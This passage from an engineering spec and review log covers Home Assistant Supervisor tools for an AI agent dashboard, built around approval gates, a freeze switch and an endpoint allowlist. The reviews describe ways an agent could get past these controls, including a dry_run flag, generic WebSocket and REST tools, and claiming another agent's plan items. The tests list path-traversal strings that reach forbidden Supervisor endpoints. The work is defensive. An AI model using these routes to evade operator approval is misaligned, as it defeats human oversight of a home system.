  `ha_ws_request(integration, 'supervisor/api', {'endpoint': E, 'method': 'get'})`
  with `E` from a constant table in a new `core/ha_supervisor.py`:
  `ha_supervisor_info` (`/supervisor/info`), `ha_core_info` (`/core/info`),
  `ha_os_info` (`/os/info`), `ha_host_info` (`/host/info`),
  `ha_addons` (`/addons`, compact: slug, name, state, version, update_available),
  `ha_addon_info(slug)` (`/addons/{slug}/info`, slug validated `^[a-z0-9_]{1,64}$`;
  drop `options` from the output — they hold add-on secrets),
  `ha_backups` (`/backups`, compact), `ha_resolution` (`/resolution/info`).
* `ha_check_config` — REST `POST /api/config/core/check_config` (read-only in effect; it
  validates and changes nothing). Mark it `read_only`.
* Every response goes through `secret_scrub`. A `401/403` from `supervisor/api`
  becomes a clear error: "the HA token is not an admin token. Supervisor tools need an admin user."
* `docs/INTEGRATIONS.md`: the HA section says which tools need an admin token.
  It also recommends (as a setup step, not enforced) a **dedicated HA admin user
  for Eshu** (e.g. `eshu`) whose long-lived token is used by the integration, so
  HA's logbook attributes agent actions to it and the token can be revoked
  without touching the operator's own login. Note in the docs that a
  long-lived token carries all of its user's rights. The operator's current
  token comes from their own (admin) login.
* `ha_whoami` (read-only): WS `auth/current_user` → `{name, is_admin, is_owner}`,
  so the operator (and the Supervisor tools' error messages) can confirm which
  user the token belongs to.

### Tests to add

* Freeze: a mutating HA call and an approval of a pending integration call are
  refused while frozen; reads still run; audit rows written.
* Each Supervisor tool sends exactly the fixed endpoint and method (stub `ha_ws_request`);
  a slug with `/`, `..` or `?` is rejected before any call.
* `ha_addon_info` output never contains `options`.
* Non-admin error mapping.
* **Allowlist test:** the set of endpoints any F9/F10 tool can send equals the
  constant table. Fails when someone adds an endpoint without updating it.

### Compat impact

Additive tools. Freeze now also blocks integration writes, which is a behaviour change. CHANGELOG entry.

### Acceptance criteria

- [ ] No code path can send an endpoint that is not in `ha_supervisor.py`'s table.
- [ ] Freeze blocks integration writes and approvals; reads unaffected.
- [ ] Seeded tools appear after "seed" on an existing HA integration without duplicates.

### Implementer notes

**What I did**

* **Freeze covers integrations** (`core/tool_runner.py`): with the freeze flag
  set, a call that is not a read is refused before any pending row, preflight
  or upstream request, with `{"error": {"code": "frozen", "message": …,
  "status_code": 409}}`, an `integration_calls` row (`outcome=refused`,
  `reason_code=frozen`, method/path only) and an audit event
  `mcp_frozen_refused`. Reads keep working; a handler **dry-run** also runs,
  because it changes nothing upstream (the freeze protects state, not the
  validation path). Whether a call is a read comes from
  `core/read_policy.is_read_integration_call` (§2.6a), not from a second local
  rule — the module is the one the task asked for: the integration half only,
  with a note that F4's branch holds the full file (SSH rules) and that the
  `read_only` guard must survive the merge.
* **Approvals** (`POST /api/integration-calls/{id}/approve`): while frozen the
  approval is refused with **409** and an audit event
  `integration_call_refused_frozen`; the call **stays pending**, so unfreezing
  lets the operator approve it (a freeze pauses the queue, it does not destroy
  it). Denying is still allowed — removing work is never a write.
* **`core/ha_supervisor.py`**: the fixed endpoint table
  (`SUPERVISOR_READS`: tool → endpoint, method, shaper), `endpoint_for(tool,
  args)` (the only place an endpoint is built; the add-on slug is validated
  against `^[a-z0-9_]{1,64}$` **before** formatting, so `/`, `..`, `?` and
  uppercase never reach the upstream), per-shape field allowlists (lists
  capped at 200 rows), `ha_addon_info` shaped without `options`,
  `run_supervisor_read` (audit via `ha_ws_exec` with the tool name, then
  `secret_scrub`), and the 401/403 → `ha_admin_required` mapping.
  `SUPERVISOR_ACTIONS` is an empty table for F10, kept separate so
  `SUPERVISOR_READS` stays "reads only".
* **Tools** (`core/ha_seed.py`, `handler: ha_supervisor_read` for the eight
  reads, `handler: ha_whoami` for the WS `auth/current_user`):
  `ha_supervisor_info`, `ha_core_info`, `ha_os_info`, `ha_host_info`,
  `ha_addons`, `ha_addon_info(slug)`, `ha_backups`, `ha_resolution`,
  `ha_whoami`, and `ha_check_config` (REST `POST
  /config/core/check_config`, `read_only: True` — it validates and changes
  nothing, so it runs without approval). Seeding is idempotent by name, so an
  existing HA integration gets the ten new tools after "Seed" without
  duplicates.
* **UI**: the freeze banner, the freeze pill tooltip and the freeze toast now
  say "SSH and integration writes rejected".
* **Docs**: `docs/INTEGRATIONS.md` documents the Supervisor tools, the
  admin-token requirement, `ha_whoami`, the dedicated-`eshu`-admin-user
  recommendation (a long-lived token carries all of its user's rights) and
  that freeze now covers integration writes. CHANGELOG entries for both
  behaviour changes.
* **Tests**: `tests/test_f9_ha_supervisor_read.py` (37) — freeze (write
  refused, nothing queued, read allowed, dry-run allowed, approval refused and
  kept pending, approval after unfreeze, the read policy is consulted),
  each tool's exact endpoint and method, slug validation (7 bad forms never
  reach the upstream), `options` never returned, compact add-ons, non-admin
  mapping, upstream error, `ha_whoami`, `ha_check_config` as a read, scrubbing,
  the allowlist (table == tools; no other module builds a `supervisor/api`
  payload; every supervisor tool is read-only), and idempotent seeding. Two
  pre-existing count assertions moved from 18 to 28 seeded tools, explained in
  the commit.

**Decisions**

* The tool names are the chunk's literal `ha_*` names. MCP prefixes the
  integration name, so on the shared surface an integration named "Home
  Assistant" exposes `home_assistant_ha_supervisor_info`. The alternative is
  to drop the `ha_` prefix in the seed (then it reads
  `home_assistant_supervisor_info`); say which reads better and it is a
  one-line rename per tool.
* `ha_check_config` is a POST but `read_only: True`: `_read_only_refusal` only
  guards generic passthrough tools, so a curated read-only POST runs directly —
  which is the intent ("validates and changes nothing").
* The Supervisor read shapers are allowlists, not denylists: a new upstream
  field is dropped until someone adds it, which is the safe default for a
  surface that can carry secrets.
* An add-on's `options` would be caught by `secret_scrub` for the obvious
  password-shaped keys, but not for arbitrary ones; the shaper dropping
  `options` entirely is the real protection.

**Open questions**

1. **Tool naming** (above): keep the `ha_` prefix in the seed, or drop it so
   the MCP-visible name is `<integration>_supervisor_info`? Nothing depends on
   either choice except the docs and the existing-name test.

`bash scripts/verify.sh`: `1893 passed, 3 skipped, 7 warnings in 394.38s (0:06:34)`. The three skips are F18's read-lane tests (F4 is not on this branch).

### Round 2: fixes for reviewer round 1

* **R1 — only a handler dry-run is exempt from the freeze.** The freeze check
  used `not args.get('dry_run')`, so an agent-supplied `dry_run: true` let a
  curated REST tool, a generic tool or `ws_write` past the freeze (it is just
  another argument for those; only handlers honour it). The exemption is now
  `handler and args.get('dry_run')`, the same condition the gate below uses.
  Tests: `test_f9_a_curated_rest_dry_run_is_still_a_write`,
  `test_f9_a_ws_write_dry_run_is_still_a_write` and
  `test_f9_a_generic_write_dry_run_is_still_a_write` — each is refused with
  `frozen`, queues nothing and makes no upstream request; the handler dry-run
  test stays green.
* **R2 — the generic WS tools cannot reach the Supervisor.** `ws_write` could
  still forward an agent-chosen `supervisor/api` (or `hassio/*`) endpoint, and
  HA has no allowlist of its own. Two guards, no socket before the decision:
  * `core/tool_runner._run_tool` refuses a WS command whose name starts with
    `supervisor/` or `hassio/` **before gating**, so no pending call is
    created either (error `supervisor_command_refused`, 403, an
    `integration_calls` row with `reason_code=supervisor_command_refused` and a
    `ws_supervisor_refused` audit event);
  * `core/ha_ws.execute_ws_call` refuses the same prefixes, which covers the
    approval executor and any direct caller.
  `core/ha_ws.is_supervisor_command` is the one predicate; the curated
  handlers still use `ha_ws_request` with constants, so `ha_supervisor.py`'s
  table remains the only path. Tests: `test_f9_ws_write_refuses_supervisor_before_connecting`,
  `test_f9_ws_write_refuses_hassio_before_connecting`,
  `test_f9_an_approved_supervisor_ws_call_is_refused` (a pending call created
  before the guard is refused on approval, its stored result carries the
  message) and `test_f9_a_normal_ws_command_still_reaches_the_transport`.
  The HA test fixture now seeds the generic tools too, since those are the
  tools under test.
* **S1 — the one POST that keeps working.** `docs/INTEGRATIONS.md` now says
  that `ha_check_config` still runs while frozen, because it only validates.
* **S2 — tool naming** is the operator's call and is left as the open
  question from round 1 (see the round-1 Reviewer notes).

`bash scripts/verify.sh`: `1900 passed, 3 skipped, 7 warnings in 398.68s (0:06:38)`.

### Reviewer notes

**Round 1 (2026-11-09): changes requested.** Reviewed at `d43147f`;
`bash scripts/verify.sh`: `1893 passed, 3 skipped, 7 warnings in 346.84s (0:05:46)`.

**What holds.**

* **The endpoint table.** `ha_supervisor.py` is a fixed table. The slug is
  validated before formatting, and the response shapers are allowlists:
  `options` is never returned, and lists are capped.
* **401/403 mapping.** A 401 or 403 becomes `ha_admin_required`.
* **`ha_whoami`.** It returns only name, `is_admin` and `is_owner`.
* **Generic reads.** Chunk H's `DENY_PREFIXES` already keep `supervisor/`
  and `hassio/` out of the generic `ws_read`.
* **Freeze routing.** The freeze decision goes through
  `read_policy.is_read_integration_call`, and its `read_only` guard is the
  right addition.
* **Approval while frozen.** It is refused with a 409 and audited, and the
  call stays pending.
* **Seeding.** It is idempotent.
* **No live data.** The fixtures use `192.0.2.x`.

*Must fix:*

* **R1 An agent-set `dry_run` flag gets a write past the freeze.** The
  freeze check skips any call whose args contain `dry_run: true`. Only
  *handler* tools honour that flag, though, and the gating code further down
  checks `handler and args.get('dry_run')`. For a curated REST tool, a
  generic tool or a WS tool, `dry_run` is just one more argument. In a
  scratch test, a frozen `call_service` with `dry_run: true` was **queued
  for approval** instead of refused, against "queues nothing". A tool that
  its gate policy leaves ungated would go on to run upstream while frozen.
  **Fix:** exempt only `handler and args.get('dry_run')`, the same
  condition the gate uses. **Test:** while frozen, `dry_run: true` on a
  curated REST write, on `ws_write` and on the generic `write` tool is
  refused with `frozen`, queues nothing and makes no upstream request. The
  existing handler dry-run test stays green.
* **R2 `ws_write` can still send any Supervisor endpoint.** The acceptance
  criterion is "no code path can send an endpoint that is not in
  `ha_supervisor.py`'s table". The approval-gated generic `ws_write` tool
  still forwards `supervisor/api` (and `hassio/*`) with an endpoint and
  method chosen by the agent. Because HA has no allowlist of its own, one
  tired approval reaches host reboot, backup restore or add-on options. The
  static scan in `test_f9_no_other_module_builds_a_supervisor_payload` does
  not see this, because the command comes from the agent's arguments at run
  time. **Fix:** refuse `supervisor/` and `hassio/` commands in `ws_write`
  before connecting, with a reason that points at the curated tools. F10
  will add the reviewed action endpoints to the table. **Test:** `ws_write`
  with `supervisor/api` (and a `hassio/` command) is refused before any
  WebSocket opens, both at call time and if a pending call is approved.

*Should fix:*

* **S1 `ha_check_config` and the freeze.** It is a `read_only` POST, so it
  runs while frozen. That matches "validates and changes nothing", which is
  fine. Say so in `INTEGRATIONS.md` next to the freeze note, so the operator
  knows the one POST that keeps working.
* **S2 Tool naming (the implementer's open question).** Drop the `ha_`
  prefix: the MCP name already starts with the integration's name, and
  `home_assistant_supervisor_info` reads better than
  `home_assistant_ha_supervisor_info`. This is the operator's call. It is
  one rename per tool, plus the name test.

**Merge note: `core/read_policy.py` exists on three branches.** F9, F14 and
F4 each create it. F9 and F14 have the same function, with different
docstrings. F4's version has no `read_only` guard in
`is_read_integration_call`. When F4 merges, keep F4's SSH half, take F9's
guarded integration wrapper, and add a test that a curated write tool is not
a read (`test_f9_a_curated_write_tool_is_not_a_read`). Whichever of F9 and
F14 merges second only needs to resolve the docstring.


**Round 2 (2026-11-09, main feature reviewer): approved and merged.** R1 is right: the freeze exemption now uses the same `handler and dry_run` condition as the gate. R2 is right: `supervisor/` and `hassio/` are refused before gating and again in `execute_ws_call`. Merge: `read_policy.py` takes F9's docstring. `tool_handlers.py` holds one `HANDLERS` table with F14's Pi-hole handler and F9's two handlers.

---

## Chunk F10 — HA Supervisor actions (approval-gated) · slug `ha-supervisor-actions` · dashboard

### Changes

> Before coding, confirm each payload shape against the HA Core source
> (`components/hassio/websocket_api.py`, `components/hassio/update.py`) and the
> Supervisor API docs. The reviewer has only verified `supervisor/api`'s schema. Record what you
> checked in Implementer notes.

* Mutating tools (`read_only: False`, `always_gate: True`, so each call lands in
  the Pending API Approvals queue), via the same `ha_supervisor.py` table:
  * `ha_addon_action(slug, action)`: `action ∈ {start, stop, restart}` → `POST /addons/{slug}/{action}`.
  * `ha_addon_update(slug, backup=true)` → WS `hassio/update/addon` `{addon, backup}`.
  * `ha_core_update(backup=true)` → WS `hassio/update/core` `{backup}`.
  * `ha_backup_create(name, partial_addons?, partial_folders?)` → `POST /backups/new/full` or `/backups/new/partial`.
  * `ha_core_restart()` → refuses unless an `ha_check_config` in the last 10 minutes
    on this integration returned `valid` (record the last result in `meta`);
    then `POST /core/restart`.
  * `ha_host_reboot()` → `POST /host/reboot`: **seeded disabled** (the tool toggle
    is off by default), and its approval card shows a red "reboots the whole HA host" line.
* **Never exposed** (and listed in a `FORBIDDEN` table that a test checks against):
  backup restore (`/backups/*/restore/*`), add-on options/install/uninstall,
  `/supervisor/options`, `/host/shutdown`, `/store/repositories`, `/auth*`,
  `/security*`, `/os/datadisk*`, `/os/boot-slot`.
* **Preflight** (`PREFLIGHT` in `tool_handlers.py`) validates arguments when the call
  is queued, so the approval card shows the exact action, the add-on name and the
  current → target version for updates (from `/addons/{slug}/info` / `/core/info`).
* **Existing `call_service` loophole:** `call_service(domain='hassio', …)` reaches
  the same powers outside this allowlist. When F10 is installed, `call_service`
  refuses domain `hassio` (error points to the F10 tools), unless an agent
  policy explicitly allows `hassio` (operator escape hatch, audited).
* Freeze (F9) blocks all of these.
* Plans (F3): add plan item type `mcp` `{integration, tool, args_hash}` so an
  approved plan can cover "backup → update → check → restart". Matching is by exact
  argument hash, the same rule as SSH items. If F3 has already merged, this is a
  small extension in F10; if not, F3 includes it.

### Tests to add

* Each action builds the right endpoint and payload; unknown actions and bad slugs refused.
* `ha_core_restart` refuses without a recent valid check; works after one.
* `ha_host_reboot` is seeded disabled.
* `FORBIDDEN` endpoints are unreachable from every tool (table test).
* `call_service` with `hassio` refused by default; allowed only with an explicit policy.
* Preflight populates the approval summary; plan item of type `mcp` approves exactly one matching call.

### Acceptance criteria

- [ ] Reviewer security pass: try to reach a forbidden endpoint through any F9/F10 tool or `call_service`.
- [ ] Every action is approval-gated and audited; freeze blocks them.

### Implementer notes

**Status: implemented, awaiting review.** The acceptance criteria include a
reviewer security pass (try to reach every FORBIDDEN endpoint), so this note
lists where to push and what the tests already prove.

**Commit:** the code and tests are in `1e14827` (`feat(f10): HA Supervisor
actions (approval-gated)`) on `feat/f10-ha-supervisor-actions`. This note is
a separate docs commit.

#### 1. What was checked against the HA Core source

Checked on 2026-11-09 against `home-assistant/core@dev`:

* `homeassistant/components/hassio/websocket_api.py` — the `supervisor/api`
  command requires `endpoint` (string) and `method` (string), accepts optional
  `data` (dict), `params` (dict) and `timeout` (number), is `@require_admin`,
  and hands `data` to the Supervisor passthrough client; the WS result is
  `result["data"]`. `hassio/update/addon` requires `addon` (str) **and**
  `backup` (bool); `hassio/update/core` requires `backup` (bool). Both are
  `@require_admin` and delegate to `update_helper.update_addon/update_core`.
* `homeassistant/components/hassio/const.py` — `WS_TYPE_API = "supervisor/api"`.
* `homeassistant/components/hassio/update.py` / `update_helper.py` — the
  update WS commands schedule the same work the Supervisor's
  `/addons/{slug}/update` and `/core/update` endpoints do; the command returns
  after the Supervisor call completes, which is the source of the timeout note
  in §5.

**Not verifiable from that source:** the Supervisor itself is closed-source,
so the REST endpoint names and payloads (`/backups/new/full`,
`/backups/new/partial`, `/core/restart`, `/host/reboot`,
`/addons/{slug}/{action}`) come from the Supervisor API docs and this chunk's
spec, not from HA Core. That is recorded as open question 1 rather than
assumed silently.

#### 2. The table

`core/ha_supervisor.SUPERVISOR_ACTIONS` maps each tool to one fixed
(endpoint, method) pair; `WS_ACTIONS` holds the two update commands. The agent
supplies arguments only, and only as validated placeholders:

| Tool | Fixed target | Arguments | Notes |
|---|---|---|---|
| `ha_addon_action` | `POST /addons/{slug}/{action}` via `supervisor/api` | `slug`, `action` | `action` must be one of start/stop/restart (the only `{action}` values in the table) |
| `ha_addon_update` | WS `hassio/update/addon` | `slug`, `backup` | |
| `ha_core_update` | WS `hassio/update/core` | `backup` | |
| `ha_backup_create` | `POST /backups/new/full` or `/partial` | `name`, `partial_addons`, `partial_folders` | the *payload* decides partial vs full; nothing agent-supplied reaches the path |
| `ha_core_restart` | `POST /core/restart` | — | refused unless a valid `ha_check_config` ran on this integration in the last 10 min |
| `ha_host_reboot` | `POST /host/reboot` | — | seeded **disabled**; summary is `REBOOTS THE WHOLE HA HOST` and the card renders it in red |

All six are `read_only: False`, `always_gate: True`, `handler:
ha_supervisor_action`, so each call creates a pending approval and **nothing
runs before the operator approves it**. Freeze refuses before queueing (the
generic F9 path, tested). `ha_check_config` now has a handler so its result is
recorded in `meta` under `ha_check_config_<integration>` (`result`, `at`): a
valid check on one HA instance never vouches for another.

#### 3. FORBIDDEN

`FORBIDDEN` lists restore (`/backups/`), add-on options/install/uninstall
(`/addons/`), `/supervisor/options`, `/host/shutdown`, `/store/repositories`,
`/auth*`, `/security*`, `/os/datadisk*` and `/os/boot-slot`. A table test
walks every endpoint the read and action tables can produce and every WS
command, and fails if one starts with a forbidden prefix. The one deliberate
exception is documented in the test: `/backups/new/full|partial` are the only
`/backups/` paths reachable, and `/addons/{slug}/{start|stop|restart}` the only
`/addons/` ones. The generic WS tools remain unable to send
`supervisor/`/`hassio/` commands at all (F9 R2), and an approved pending call
runs the *handler*, not a raw command, so that does not change here.

**Where FORBIDDEN stops (S-b).** FORBIDDEN covers *direct* paths. An approved
generic HA write to the automation, script or scene config API
(`/api/config/automation|script|scene/config/...`) can define an action that
calls any `hassio.*` service, and running that action reaches what FORBIDDEN
names. Scanning the body cannot catch it, because templates can build the
domain name. Approving such a write therefore grants admin power: the approval
card carries the same red line as the reboot (the server prefixes the summary
with `⚠ Admin power: …`), and P1 keeps these tools out of plans entirely.

#### 4. `call_service(domain='hassio')`

Refused with an audited `hassio_domain_refused` (403) before any queue entry,
unless the agent's own policy lists `hassio` in the `ha_call_service`
`domain_allow` list — the operator's explicit, audited escape hatch. The
refusal message points at the F10 tools. Tested both ways, plus the "other
domains are untouched" case.

#### 5. Preflight, the summary, and timeouts

* Each action is validated by `_preflight_ha_supervisor_action` *before* the
  approval is created: bad slug, bad action, bad backup name, an update with
  no version available (`ha_update_not_available`) and a restart without a
  recent valid check are refused instead of queued.
* A viable action returns `{'_summary': …}`. `tool_runner` stores it in the new
  `pending_integration_calls.summary` column, and the approval card renders it
  (a red line for the reboot). The add-on update summary is
  `addon_update | <slug> | <current> -> <target>`, read from
  `/addons/{slug}/info`; core update reads `/core/info`.
* **Timeouts (found while checking the source):** `supervisor/api` defaults
  its per-call `timeout` to **10 s**, and updates/backups can run for minutes.
  The action path therefore sends `timeout: 600` for backups and `120` for the
  other supervisor/api calls, and raises the WebSocket read timeout to 620 s
  (backup/update) or 60 s (everything else). Reads keep the 30 s default.

#### 6. Plan items of type `mcp`

`session_plan_items` gains `kind` (`ssh` default, so pre-F10 rows are
unchanged), `integration`, `tool` and `args_hash`. An `mcp` item is proposed as
`{kind: "mcp", integration, tool, args: {...}, max_uses}` and the dashboard
stores the **hash only** — an HA service payload can carry a secret, and a plan
row is rendered in the UI. Matching in `tool_runner` is integration + tool +
the exact argument hash, one use per claim, through the same conditional
UPDATE as the SSH claim; a different argument hash never matches. The SSH
claim now filters `kind='ssh'`, so the two item types cannot cross-claim.

#### 7. Tests

`tests/test_f10_ha_supervisor_actions.py` (39) covers every case in the chunk:
right endpoint/payload per action; unknown action and bad slug refused; restart
without a recent valid check refused and queued after one; the reboot tool
seeded disabled; the FORBIDDEN table walk; `call_service` with `hassio`
refused by default and allowed only with an explicit policy; the preflight
summary; an `mcp` plan item approving exactly one matching call and nothing
else; freeze queueing nothing. `tests/test_ha_mcp.py` and
`tests/test_integrations.py` were updated for the six new seeded tools.

`bash scripts/verify.sh`: `2370 passed, 7 warnings in 445.42s (0:07:25)`.

#### Open questions

1. The Supervisor REST payloads (backup create, restart, reboot, add-on
   action) are closed-source; they come from the Supervisor API docs and this
   chunk's spec. Please confirm `/backups/new/partial` takes
   `{name, addons, folders}` against a live Supervisor before this ships.
2. A slow add-on/Core update can exceed the 620 s read timeout. The Supervisor
   continues the update; the tool then reports a timeout, which reads as a
   failure to the agent. Options: a fire-and-poll mode (start, then read
   `ha_addons`/`ha_core_info` for `version`), or a larger cap. This is a UX
   decision, not a security one.
3. The reboot warning is a red meta line driven by the tool name + summary.
   A dedicated "destructive" card style belongs to the UI pass.

### Round 2 — fixes for reviewer round 1 (M1–M2, S1)

**Commit: `5ceb569`** on `feat/f10-ha-supervisor-actions`.

* **M1 — the generic HA REST tools reached the Supervisor.**
  `core/ha_supervisor.is_supervisor_rest_path` decodes the path, lowercases it,
  collapses `//`, strips a leading `/` and an `api/` prefix, and matches
  `hassio` and `services/hassio` (exact or as a prefix). `core/tool_runner`
  refuses a HA-kind HTTP call **before gating**, so no approval card is ever
  created and no upstream request is made; the audit row is
  `rest_supervisor_refused` with `reason_code='supervisor_rest_refused'`.
  `execute_integration_call` (rendered curated path) and
  `execute_generic_call` (the generic path, and the `verify_path` GET) re-check
  it, so an already-approved pending call is refused too (the F9 R2 shape).
  Tests, in `TestSupervisorRestGuard`: every spelling (`/api/hassio/…`,
  `api//HASSIO//…`, `/api/%68assio/…`, `/api/services/hassio/…` and the
  services spelling with a percent-encoded `h`) is refused by both the generic
  read and the generic write, with `mock_upstream['requests'] == []` and no
  pending call; an approved pending call is refused and runs nothing; every
  FORBIDDEN prefix has a REST spelling; no curated HA template names a
  Supervisor path; and the refusal is audited.
  **Checked against HA Core (`components/hassio/http.py`, `dev`,
  2026-11-09):** `HassIOView` is registered at `/api/hassio/{path:.+}` and
  both `get` and `post` proxy to the Supervisor. It is admin-only except for
  the add-on logo/icon paths, and `backups/…`, `addons/<slug>/logs/…` and the
  log tails have **no timeout** (`NO_TIMEOUT`), so a generic call could also
  park a request for ever. `/api/services/hassio/<service>` is the ordinary
  Core service API for the `hassio` domain. The view rejects a path that is
  not equal to its `unquote`, so HA itself decodes once; the guard refuses
  rather than normalising-and-sending.
* **M2 — MCP plan items were not bound to the caller.**
  `claim_mcp_plan_item` takes the calling agent and joins `sessions` in the
  same statement as the claim (`s.agent != '' AND s.agent = ?`), so a
  concurrent ownership change cannot slip between the check and the use, and
  an ownerless session (or no authenticated agent) matches nothing — F3 SR2's
  fail-closed rule. `tool_runner` passes the authenticated agent name, not the
  `mcp` display label. Tests: `test_another_agents_session_is_not_claimable`
  (B's call is queued for the operator, A's item keeps its use and runs
  exactly once) and `test_an_ownerless_session_is_not_claimable`.
* **S1 — `ha_host_reboot` was plan-coverable.**
  `_validate_mcp_item` refuses an `mcp` item naming `ha_host_reboot` when the
  plan is proposed (`PlanError('not_plan_coverable')`), so every reboot has its
  own approval card. Test: `test_host_reboot_is_not_plan_coverable`.

`bash scripts/verify.sh`: `2393 passed, 7 warnings in 458.83s (0:07:38)`.

### Round 3 — N1 (round 2 review): non-canonical paths

**Commit: `2f0fdf1`.**

`is_supervisor_rest_path` now refuses a path **whatever its prefix** when it
is not canonical:

* it is percent-decoded **until stable** (one pass let `%252e%252e` become
  `%2e%2e`, which the proxy then decoded);
* any `.` or `..` segment, a backslash, or a NUL/control character is
  refused — HA has no legitimate API path with those;
* only then are `//`, the leading `/` and an `api/` prefix stripped and the
  Supervisor prefixes checked, as before.

Refusing beats normalising because the bytes sent must be the bytes checked:
`urllib` sends the path verbatim, and nginx/NPM in front of HA resolves dot
segments and decodes `%2e`, so `api/states/../hassio/backups/x/restore`
would otherwise reach the Supervisor.

The table runs seven spellings through **all three checkpoints** (21 tests):
`api/states/../hassio/backups/x/restore`, `api/./hassio/host/reboot`,
`api/states/%2e%2e/hassio/x`, `api/services/./hassio/x`,
`api/hassio\backups`, `api/services/%252e%252e/hassio/x` and a NUL byte.
`test_a_non_canonical_path_is_refused_before_gating` (no pending call, no
upstream request), `..._by_the_curated_executor` (`execute_integration_call`)
and `..._by_the_generic_executor` (`execute_generic_call`) each assert a 403.

`bash scripts/verify.sh`: `2414 passed, 7 warnings in 469.74s (0:07:49)`.

### Round 4 — security code review (P1–P3, S-a, S-b)

**Commit: `2a2ca70`.** The security reviewer re-reads only this diff; each
point is a separate block in `tool_runner.py`, `session_plans.py`,
`tool_handlers.py` and `ha_supervisor.py`.

* **P1 — a plan item must be readable, and only curated actions are
  coverable.** `_validate_mcp_item` now requires `args` (a bare `args_hash` is
  refused) and matches on the hash of those args; a supplied hash that does
  not match is refused. It stores a redacted display copy (`args_json`, via
  the existing scrubber) and, for a handler tool, the preflight `_summary`;
  `_plan_payload` exposes both to the plan card, which shows the summary and
  the arguments under the command. Coverage is an allowlist,
  `PLAN_COVERABLE_TOOLS` = the five curated actions; the generic
  read/write, `call_service`, `ws_write` and `ha_host_reboot` are refused as
  `not_plan_coverable` (S1 follows from the allowlist). Tests:
  `test_a_bare_args_hash_is_refused`,
  `test_the_plan_card_shows_the_redacted_arguments`,
  `test_only_the_curated_actions_are_coverable`,
  `test_every_curated_action_is_coverable`.
* **P2 — `always_gate` wins over an agent's `ungated`.** The override is
  ignored on an `always_gate` tool (wildcards included, because the guard is
  on the tool, not on the lookup), and the ignored override is audited once
  per agent and tool (`mcp_ungated_ignored`). Tests: every enabled F10 action
  against `*: ungated`, `ha.*: ungated` and an exact
  `ha.ha_core_update: ungated` still queues, and the audit row appears once.
* **P3 — the config check is re-checked at the call.** `_config_check_fresh`
  is shared by the preflight and by `_h_ha_supervisor_action`, which now
  refuses a `ha_core_restart` with `ha_check_config_stale` immediately before
  `run_supervisor_action`. That covers a plan-claimed restart, an approval
  that arrives after the check expired, and any other path that reaches the
  handler. Tests: a plan-claimed restart with an expired check is refused and
  opens no WebSocket; a late approval stores the refusal and sends nothing;
  the handler refuses directly.
* **S-a — the Supervisor prefix is the whole first segment.** The guard now
  refuses any first segment starting with `hassio` (which covers the add-on
  ingress proxy, `hassio_ingress/...`) and runs on the path the request
  carries, including the integration's own base path
  (`is_supervisor_rest_request`). Tests: a `hassio_ingress` spelling through
  all three checkpoints, and an integration whose `base_url` ends in
  `/hassio`.
* **S-b — config writes grant admin power.** §3 documents where FORBIDDEN
  stops; the server prefixes the approval summary with `⚠ Admin power: …` for
  an HA write to the automation/script/scene config API, and the integration
  card renders any summary starting with `⚠` in the danger colour (the same
  line the reboot gets). Test: the pending call's summary carries the
  warning.

Both the merged gateway script and this diff keep the CI fix's capture code;
the F12 merge is separate.

`bash scripts/verify.sh`: `2459 passed, 14 skipped, 7 warnings in 486.12s (0:08:06)`.

### Reviewer notes

**Round 1 (2026-11-09, main feature reviewer): changes requested.** 177 F10,
F9, F3, HA and integration tests pass locally.

*What holds:*

* Every action is always-gated and audited, and freeze blocks it.
* `SLUG_RE` (`^[a-z0-9_]{1,64}$`) makes path tricks in slugs impossible.
* Shapers pass only named fields, so `options` never reaches an add-on.
* `ha_host_reboot` is seeded disabled.
* `ha_core_restart` needs a recent valid config check.
* `call_service(domain='hassio')` is refused unless allowed (domain check
  is trimmed and case-folded).

*Must fix:*

* **M1 The generic HA REST tools reach the Supervisor.** F9 R2 closed
  `ws_write`, but the HA integration's generic REST `read`/`write` are not
  checked for:
  * `/api/hassio/…`, HA Core's Supervisor proxy, which admin tokens can use;
  * `/api/services/hassio/…`, the same services `call_service` now refuses.

  So "FORBIDDEN endpoints are unreachable from every tool" does not hold:
  a backup restore or host shutdown is one approval away through the
  generic write. Fix: in `tool_runner`, for HA-kind integrations, refuse a
  generic REST call whose normalised path (percent-decoded, lowercased,
  `//` collapsed, leading `/` and an `api/` prefix stripped) starts with
  `hassio/` or `services/hassio/`, before gating and when a pending call is
  approved (mirror F9 R2).
  * Extend the FORBIDDEN table test to walk **every** HA tool, including the
    generic read and write, with each spelling.
  * Confirm against HA Core's `components/hassio/http.py` which `/api/hassio`
    paths exist, and record it in the notes.
* **M2 MCP plan items are not bound to the caller.** `claim_mcp_plan_item`
  matches on `session_id`, integration, tool and the argument hash. But an
  MCP caller can name **any** session id (`resolve_session` takes the
  explicit value as is). Agent B could therefore spend agent A's approved
  "update add-on X" item. Require the session's owner to equal the calling
  agent (fail closed for ownerless sessions, as in F3's SR2) before
  claiming. Tests: B cannot claim A's item, and A claims it exactly once.

*Should fix:*

* **S1** `ha_host_reboot` should never be plan-coverable. Each reboot gets
  its own approval card with the red line. Refuse `mcp` plan items naming
  it when a plan is proposed.
* **S2** Answer to the open questions: keep the partial-backup payload
  behind a "verify against a live instance" note. Raise long-update
  timeouts as their own setting, not the shared read timeout. The
  "destructive" card style goes to the UI pass list.

**Needs the security reviewer before merge (§ 2.6a).** F10 adds a new
auto-approve path for integration calls (plan items of kind `mcp`), in
addition to the Supervisor actions.

**Round 2 (2026-11-10, `5ceb569`): one fix left (N1).** M2 and S1 are fixed
as asked:
* the MCP plan claim joins `sessions` and requires `s.agent = owner`, with
  ownerless sessions matching nothing, in the same statement as the claim;
* `ha_host_reboot` can never be a plan item.

M1's three checkpoints are right: before gating, in the curated executor and
in the generic executor. 95 F10 and F3 tests pass locally.

* **N1 (must): dot segments get past `is_supervisor_rest_path`.** It decodes
  once and checks a prefix, but never resolves `.` or `..`:
  * `api/states/../hassio/backups/x/restore` → not refused;
  * `api/./hassio/host/reboot` → not refused;
  * `api/states/%2e%2e/hassio/x` → not refused;
  * `api/services/./hassio/x` → not refused;
  * `api/hassio\backups` → not refused.
  
  `urllib.request` sends these paths exactly as given. A reverse proxy in
  front of HA (nginx, which is what NPM is) resolves dot segments and
  decodes `%2e`, so the request can still reach `/api/hassio/...`. Fix: in
  the check, unquote **until stable**, then **refuse** any HA REST path that
  contains a `.` or `..` segment, a backslash, or a NUL/control character,
  whatever its prefix. HA has no legitimate API path with those. Only then
  apply the prefix check. Refusing beats normalising, because the bytes sent
  must be the bytes checked. Add the five spellings above, and
  `%252e%252e`, to the table test, through all three checkpoints.

**After N1:** to the security reviewer (§ 2.6a), with the M1 table, N1 and
